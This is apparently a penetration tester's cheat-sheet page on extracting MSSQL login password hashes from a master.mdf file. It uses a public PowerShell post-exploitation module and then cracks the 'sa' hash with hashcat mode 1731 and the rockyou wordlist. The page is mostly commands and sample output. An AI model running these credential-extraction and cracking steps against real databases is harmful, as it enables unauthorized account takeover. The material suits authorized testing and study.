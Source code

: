 # Master MDF Hash Extraction

{% embed url="https://blog.xpnsec.com/extracting-master-mdf-hashes/" %}

```
git clone https://github.com/xpn/Powershell-PostExploitation.git
```

```
Editing the file, 2 line to correct directory for dlls.

Import-Module .\Get-MDFHashes.ps1

Get-MDFHashes -mdf "C:\Users\Administrator\Desktop\master.mdf"
sa                             0x.......
```

### Cracking

{% embed url="https://hashcat.net/wiki/doku.php?id=example_hashes" %}

1731 - MSSQL (2012, 2014) - MATCH!

```
hashcat -m 1731 -a 0 hash.txt rockyou.txt --force
sa - password1
```
